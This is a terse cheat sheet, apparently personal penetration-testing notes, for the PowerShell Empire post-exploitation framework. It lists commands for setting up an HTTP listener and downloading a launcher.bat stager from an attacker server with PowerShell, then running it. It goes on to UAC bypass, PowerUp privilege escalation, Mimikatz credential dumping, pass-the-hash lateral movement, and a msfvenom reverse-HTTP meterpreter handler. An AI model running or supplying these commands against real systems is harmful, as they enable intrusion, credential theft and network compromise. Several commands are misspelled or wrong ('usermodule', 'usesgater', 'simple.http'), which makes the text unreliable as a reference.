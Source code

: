 # PowerShellEmpire

## Install

```text
git clone https://github.com/PowerShellEmpire/Empire.git
cd Empire
sudo ./setup/install.sh
sudo ./empire
```

## Listener

```text
uselistener http
set host <ip>
set port <ip>
execute
back
```

## Stager

```text
usestager launcher_bat
set listener http
execute
python3 -m simple.http
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ip/launcher.bat','launcher.bat')
launcher.bat
```

## Agents

```text
agents
interact <id>
sysinfo
```

## Modules

### get\_user

```text
usemodule situational_awareness/network/powerview/get_user
execute
```

### PrivEsc

```text
usermodule powershell/privesc/powerup
execute
```

```text
usermodule powershell/privesc/bypass_uacfodhelper
set listener http
execute
```

### mimikatz

```text
usermodule credentials/mimikatz/logonpasswords
execute
creds
creds add <domain> <user> <pass>
```

### Lateral Movement

```text
usermodule powershell/lateral_movement/invoke_smbex
set ComputerName win10-x86
set listener http
set username <username>
set hash <hash>
set domain <domain>
execute
```

## From PE to MSF

```text
msfvenom -p windows/meterpreter/reverse_http lhost=<ip> lport=<port> -f exe -o ~/met.exe
msfconsole -q
use multihandler
set payload windows/meterpreter/reverse_http
set lhost <ip>
set lport <lport>
exploit
shell met.exe
```

## From MSF to PE

```text
usesgater windows/launcher.bat
upload launcher.bat
shell
launcher.bat
```

